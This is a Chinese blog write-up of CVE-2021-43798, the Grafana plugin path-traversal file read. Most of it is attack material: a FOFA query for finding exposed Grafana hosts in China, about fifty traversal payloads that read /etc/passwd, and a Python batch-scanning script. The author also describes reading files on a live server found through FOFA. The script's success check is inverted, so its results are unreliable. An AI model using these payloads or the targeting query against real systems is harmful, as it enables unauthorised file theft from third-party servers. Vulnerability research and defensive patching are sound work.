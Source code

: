 # CVE-2021-43798（Grafana 未授权任意文件读取漏洞）




## 漏洞描述

Grafana是一个跨平台、开源的数据可视化网络应用程序平台。用户配置连接的数据源之后，Grafana可以在网络浏览器里显示数据图表和警告。

Grafana 存在未授权任意文件读取漏洞，攻击者在未经身份验证的情况下可通过该漏洞读取主机上的任意文件。



## 影响范围

经测试，目前最新版本（Grafana v8.2.6）仍存在漏洞。





## 漏洞成因

主要是插件原因，查看代码是插件目录直接和requestedFile进行合并，没有进行过滤

参考这篇文章：https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw



## 漏洞复现

### FOFA 查询

```bash
app="Grafana" && country="CN" && body="v8."
```

在fofa上面找的一个ip进行测试，只需要简单抓包，将路径改掉，就可以读取文件内容：

![](http://image.geoer.cn/img/image-20220118233442024.png)

### Fuzz些插件列表

```
/public/plugins/alertGroups/../../../../../../../../etc/passwd
/public/plugins/alertlist/../../../../../../../../etc/passwd
/public/plugins/alertmanager/../../../../../../../../etc/passwd
/public/plugins/annolist/../../../../../../../../etc/passwd
/public/plugins/barchart/../../../../../../../../etc/passwd
/public/plugins/bargauge/../../../../../../../../etc/passwd
/public/plugins/canvas/../../../../../../../../etc/passwd
/public/plugins/cloudwatch/../../../../../../../../etc/passwd
/public/plugins/dashboard/../../../../../../../../etc/passwd
/public/plugins/dashlist/../../../../../../../../etc/passwd
/public/plugins/debug/../../../../../../../../etc/passwd
/public/plugins/elasticsearch/../../../../../../../../etc/passwd
/public/plugins/gauge/../../../../../../../../etc/passwd
/public/plugins/geomap/../../../../../../../../etc/passwd
/public/plugins/gettingstarted/../../../../../../../../etc/passwd
/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../etc/passwd
/public/plugins/grafana/../../../../../../../../etc/passwd
/public/plugins/graph/../../../../../../../../etc/passwd
/public/plugins/graphite/../../../../../../../../etc/passwd
/public/plugins/heatmap/../../../../../../../../etc/passwd
/public/plugins/histogram/../../../../../../../../etc/passwd
/public/plugins/influxdb/../../../../../../../../etc/passwd
/public/plugins/jaeger/../../../../../../../../etc/passwd
/public/plugins/live/../../../../../../../../etc/passwd
/public/plugins/logs/../../../../../../../../etc/passwd
/public/plugins/loki/../../../../../../../../etc/passwd
/public/plugins/mixed/../../../../../../../../etc/passwd
/public/plugins/mssql/../../../../../../../../etc/passwd
/public/plugins/mysql/../../../../../../../../etc/passwd
/public/plugins/news/../../../../../../../../etc/passwd
/public/plugins/nodeGraph/../../../../../../../../etc/passwd
/public/plugins/opentsdb/../../../../../../../../etc/passwd
/public/plugins/piechart/../../../../../../../../etc/passwd
/public/plugins/pluginlist/../../../../../../../../etc/passwd
/public/plugins/postgres/../../../../../../../../etc/passwd
/public/plugins/prometheus/../../../../../../../../etc/passwd
/public/plugins/stat/../../../../../../../../etc/passwd
/public/plugins/state-timeline/../../../../../../../../etc/passwd
/public/plugins/status-history/../../../../../../../../etc/passwd
/public/plugins/table-old/../../../../../../../../etc/passwd
/public/plugins/table/../../../../../../../../etc/passwd
/public/plugins/tempo/../../../../../../../../etc/passwd
/public/plugins/testdata/../../../../../../../../etc/passwd
/public/plugins/text/../../../../../../../../etc/passwd
/public/plugins/timeseries/../../../../../../../../etc/passwd
/public/plugins/welcome/../../../../../../../../etc/passwd
/public/plugins/xychart/../../../../../../../../etc/passwd
/public/plugins/zipkin/../../../../../../../../etc/passwd
```



```
alertmanager
grafana
loki
postgres
grafana-azure-monitor-datasource
mixed
prometheus
cloudwatch
graphite
mssql
tempo
dashboard
influxdb
mysql
testdata
elasticsearch
jaeger
opentsdb
zipkin
alertGroups
bargauge
debug
graph
live
piechart
status-history
timeseries
alertlist
candlestick
gauge
heatmap
logs
pluginlist
table
welcome
annolist
canvas
geomap
histogram
news
stat
table-old
xychart
barchart
dashlist
gettingstarted
icon
nodeGraph
state-timeline
text
```



### 脚本

```python
import requests
import sys
 
args = str(sys.argv[1])

headers = {
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0",
}

with open("./paload.txt", "r+") as f:	# paload存放的插件名
    for line in f:
        url = "http://"+args+"/public/plugins/"+str.rstrip(line)+"/../../../../../../../../../../../etc/passwd"

        req = requests.post(url, headers=headers,timeout=(3,7),allow_redirects=False)
        a=req.text
        str1='root'
        if a in str1:
            print('确认存在'+str.rstrip(line)+'路径,并存在漏洞!')
            print(url)
        else:
            print('不存在漏洞!')
```

脚本改进：多线程+批量url检测



## 漏洞分析

暂未进行

参考：https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw



## 修复建议

请关注厂商主页更新：[Grafana: The open observability platform | Grafana Labs](https://grafana.com/)

临时修复建议：

1、通过防火墙等安全设备设置访问策略，设置白名单访问。

2、如非必要，禁止公网访问该系统。


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/cve-2021-43798grafana-%E6%9C%AA%E6%8E%88%E6%9D%83%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/  

